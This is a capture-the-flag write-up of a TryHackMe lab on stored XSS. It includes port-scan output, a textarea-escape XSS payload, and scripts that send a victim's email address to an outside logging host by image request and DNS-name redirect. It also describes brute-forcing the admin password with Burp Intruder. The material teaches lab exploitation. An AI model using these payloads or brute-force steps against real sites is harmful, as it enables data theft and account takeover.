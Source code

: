 # That's The Ticket | Sept 26, 2022

## Introduction:

Welcome to my another writeup! In this TryHackMe [That's The Ticket](https://tryhackme.com/room/thatstheticket) room, you'll learn: Stored XSS, or Cross-Site Scripting! Without further ado, let's dive in.

## Background

> IT Support are going to have a bad day, can you get into the admin account?

> Difficulty: Medium

```
IT Support is going to have a really bad day today, but don't think they're stupid! They have really strict firewalls!

Using the IT support portal try and make your way into the admin account.

Hint: Our HTTP & DNS Logging tool on http://10.10.10.100 may come in useful! 
```

- Overall difficulty for me: Easy

# Task 1 - Lab Informaion

- Question: What is IT Supports email address?

As usual, scan the machine for open ports via `rustscan`!

**Rustscan:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/That's-The-Ticket]
└─# export RHOSTS=10.10.213.250
                                                                                                           
┌──(root🌸siunam)-[~/ctf/thm/ctf/That's-The-Ticket]
└─# rustscan --ulimit 5000 -t 2000 --range=1-65535 $RHOSTS -- -sC -sV -oN rustscan/rustscan.txt
[...]
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bf:c3:9c:99:2c:c4:e2:d9:20:33:d1:3c:dc:01:48:d2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC8dfacBZcXm48CzKZh1Vd6tO6p86sR7PyBbxJj9q9Zifzlq+GmD+r1eXLaH+waOWnD/fmPr8CtScSVP0iu0opnIZ21A4Zy/SOjNKVuDWGWP36cj/XxiTlLL3qfOk0OXy/xVEYycYWhiJm1VLhOSg5Tk3xGGJRBY9V1MfBF/Oq2DdEcODzUnh/JLikJctZ15DwGTaY+6ehl6Kh1PwRQ6XZmhLP42P9NtPCY8AkXCO2EJrE/tzckhUzi4vr17Z0M4zZd8AZX1SfX3t5hULhKMDbQ7zRQNTIeaLYdPBa4Yu3Ze2annUvOlKhnTKm+omW7vbXKWurIWRqyG59F12sNHl3P
|   256 08:20:c2:73:c7:c5:d7:a7:ef:02:09:11:fc:85:a8:e2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBO1cxZc0WJgiYCd7m7sxzMYbgVLjqIc40ZZi4Y+M+YHJeISCq1bhTMLSpIWHxwpnQg+qVD3wrgYWI9Hr6FGGMrg=
|   256 1f:51:68:2b:5e:99:57:4c:b7:40:15:05:74:d0:0d:9b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFCYrvmQ5DCiI8ZbvzVWWIkj1apQr36j4vJ8K8MfUCKz
80/tcp open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
|_http-title: Ticket Manager > Home
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

According to `rustscan` result, we have 2 ports are opened:

Ports Open        | Service
------------------|------------------------
22                | OpenSSH 7.6p1 Ubuntu
80	              | nginx 1.14.0 (Ubuntu)

## HTTP on Port 80

**In the home page, we can see that we're able to login or register an account:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a1.png)

**`/login`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a2.png)

In the login page, I tried to authentication bypass with SQL injection, but no dice.

**Then I guess we'll have to register an account in `/register`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a3.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a4.png)

After we registered an account, we can create a ticket. I'll create a ticket for testing purposes:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a5.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a6.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a7.png)

I also tried the IDOR, or Insecure Direct Object Reference, but when I reach `/1`, it redirects me to the home page.

Now, **why not test the message box is vulnerable to XSS, or Cross-Site Scripting?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a8.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a9.png)

The `alert(1)` is not working?

After inspecting the message box, I found that **this is a `textarea` in HTML**:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a10.png)

**To bypass `textarea`, we can just simply close that tag by adding `</textarea>` before our XSS payload:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a11.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a12.png)

Yes!!! We trigged the XSS vulnerability, and it's a stored XSS!

**Now, we can create an iframe XSS payload!**

> Note: You can create HTTP & DNS Logging tool in [TryHackMe Request Catcher](http://10.10.10.100).

**payload:**
```html
</textarea><iframe src="http://cab5af170585946566f5fc8d2578fdd1.log.tryhackme.tech/">
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a13.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a14.png)

Confirmed that we have a call back.

**Now we need admin's email in question 1**

After logged in, the top-right hand corner has **a `<span>` tag, which contains the `email` id**:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a15.png)

We can leverage the XSS vulnerability to capture admin's email via the follow payload! (From a [GitHub repository](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md) and a [StackOverflow post](https://stackoverflow.com/questions/13341095/how-to-get-the-value-of-id-of-innerhtml).) 

```html
</textarea><script>var i=new Image;i.src="http://cab5af170585946566f5fc8d2578fdd1.log.tryhackme.tech/?"+document.getElementById('email').innerHTML;</script>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a16.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a17.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a18.png)

> Note: Some DNS requests are the admin user. 

Successfully capture our email, let's capture the admin's email!

**Since URL encoding will break special characters like `@` and `.`, we need to escape them:**
```html
</textarea><script>
var i = document.getElementById('email').innerText;
i = i.replace('@', 'at')
i = i.replace('.', 'dot')
document.location = 'http://' + i + '.cab5af170585946566f5fc8d2578fdd1.log.tryhackme.tech/';
</script>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a19.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a20.png)

**In one of those DNS requests, we can see that there is an email for user `admin`!!**

- Question 2: Admin users password

Armed with admin's email, **we can bruteforce his password via Burp Suite Intruder!**

**To do so, I'll:**

- Intercept the POST request in `/login` via Burp Suite:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a21.png)

- Send the intercepted request to `Intruder`: (`Ctrl + i`)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a22.png)

- Clear all positions via `Clear` button:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a23.png)

- Highlight the password, and add position to it via `Add` button:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a24.png)

- Load a password wordlist payload in `Payloads` tab:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a25.png)

- After loaded the wordlist, click `Start Attack`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a26.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a27.png)

**Found the password!**

- Question 3: Flag inside Ticket 1

**Let's login to the admin user!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a28.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a29.png)

We're in!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a30.png)

# Conclusion

What we've learned:

1. Stored XSS (Cross-Site Scripting)
2. Password Bruteforcing in HTTP POST Form